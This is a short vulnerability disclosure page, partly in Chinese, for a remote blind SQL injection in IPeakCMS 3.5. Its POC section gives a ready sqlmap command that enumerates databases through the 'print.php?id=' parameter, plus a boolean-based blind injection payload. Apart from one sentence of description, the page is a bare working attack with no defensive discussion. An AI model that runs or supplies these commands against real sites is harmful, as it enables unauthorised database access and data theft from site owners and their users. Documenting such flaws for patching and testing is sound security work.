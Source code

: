 <languages /> <translate>

簡介
----

IPeakCMS3.5存在遠程SQL盲注漏洞。 </translate>

POC
---

    Use SQLmap if you've found the valid id...
    e.g: sqlmap -u "site.com/cms/print.php?id=1" --dbs
    Payload : id=(SELECT (CASE WHEN(3104=3104) THEN 1 ELSE (SELECT 8458) END))